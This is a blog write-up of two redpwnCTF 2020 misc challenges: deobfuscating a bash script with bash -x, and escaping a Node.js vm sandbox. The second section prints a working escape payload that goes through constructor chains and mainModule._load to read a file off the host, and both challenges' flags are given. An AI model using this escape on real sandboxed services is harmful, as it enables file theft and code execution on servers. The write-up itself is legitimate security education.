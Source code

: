 ```yaml
---
title: "redpwnCTF 2020 Misc"
date: 2020-06-29T14:16:00+00:00
# weight: 1
# aliases: ["/first"]
tags: ["writeup", "misc", "redpwnctf"]
author: "Me"
# author: ["Me", "You"] # multiple authors
showToc: true
TocOpen: true
draft: false
hidemeta: false
comments: false
description: "Writeups on misc challenges for redpwnCTF 2020"
disableHLJS: true # to disable highlightjs
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
---
```


<img src="/img/misc.png">

---

## uglybash
**Category:** Misc

**Points:** 359

**Description:**
> This bash script evaluates to echo dont just run it, dummy # flag{...} where the flag is in the comments.
>
> The comment won't be visible if you just execute the script. How can you mess with bash to get the value right before it executes?
>
> Enjoy the intro misc chal.
>
> **Author:** arinerron
>
> **Given:** cmd.sh

### Writeup
When looking at the file, we see a bunch of gibberish bash. I did some research
and found a way to "debug" a script in bash.

The command is simple:
```
bash -x <program>
```

After running this, we see all commands ran in bash. We can do some parsing
through this debug output and retrieve:
```
+++ printf %s e
+++ printf %s c
+++ printf %s h
+++ printf %s o
+++ printf %s ' '
+++ printf %s d
+++ printf %s o
+++ printf %s n
+++ printf %s t
+++ printf %s ' '
+++ printf %s j
+++ printf %s u
+++ printf %s s
+++ printf %s t
+++ printf %s ' '
+++ printf %s r
+++ printf %s u
+++ printf %s n
+++ printf %s ' '
+++ printf %s i
+++ printf %s t
+++ printf %s ,
+++ printf %s ' '
+++ printf %s d
+++ printf %s u
+++ printf %s m
+++ printf %s m
+++ printf %s y
+++ printf %s ' '
+++ printf %s #
+++ printf %s ' '
+++ printf %s f
+++ printf %s l
+++ printf %s a
+++ printf %s g
+++ printf %s {
+++ printf %s u
+++ printf %s s
+++ printf %s 3
+++ printf %s _
+++ printf %s z
+++ printf %s s
+++ printf %s h
+++ printf %s ,
+++ printf %s _
+++ printf %s d
+++ printf %s u
+++ printf %s m
+++ printf %s m
+++ printf %s y
+++ printf %s }
```

Evaluating to:
```
dont just run it, dummy # flag{us3_zsh,_dummy}
```

### Flag
`flag{us3_zsh,_dummy}`

---

## CaasiNO
**Category:** Misc

**Points:** 402

**Description:**
> Who needs regex for sanitization when we have VMs?!?!
>
> The flag is at /ctf/flag.txt0
>
> `nc 2020.redpwnc.tf 31273`
>
> **Author:** asphyxia
>
> **Given:** calculator.js

### Writeup
This one isn't as easy for me to explain because I don't understand FULLY how
I am able to get this flag. From my understanding, we are in a JavaScript VM,
which allows us to run some simple JavaScript. I don't know all that much JavaScript,
but I was able to do some research to find out that this vm is escapable.

I started out by seeing:
```
> this.constructor.constructor()
function anonymous(
) {

}
```

This gave me a little inspiration to try to find the flag. I messed around with
this for a while to try to get further and further. I then was able to return this
"process" object, which I was sure had many resources. I was right.
```
> this.constructor.constructor("return this")().process
[object process]
```

I fumbled around with more code and functions until I came across this beauty:
```
> new Function("return (this.constructor.constructor('return (this.process.mainModule.constructor._load)')())")()("fs").readFileSync("ctf/flag.txt")
flag{vm_1snt_s4f3_4ft3r_41l_29ka5sqD}
```

### Flag
`flag{vm_1snt_s4f3_4ft3r_41l_29ka5sqD}`

## Resources
[readFileSync](https://www.geeksforgeeks.org/node-js-fs-readfilesync-method/?ref=leftbar-rightbar)

[Main idea](https://github.com/gf3/sandbox/issues/50)

---


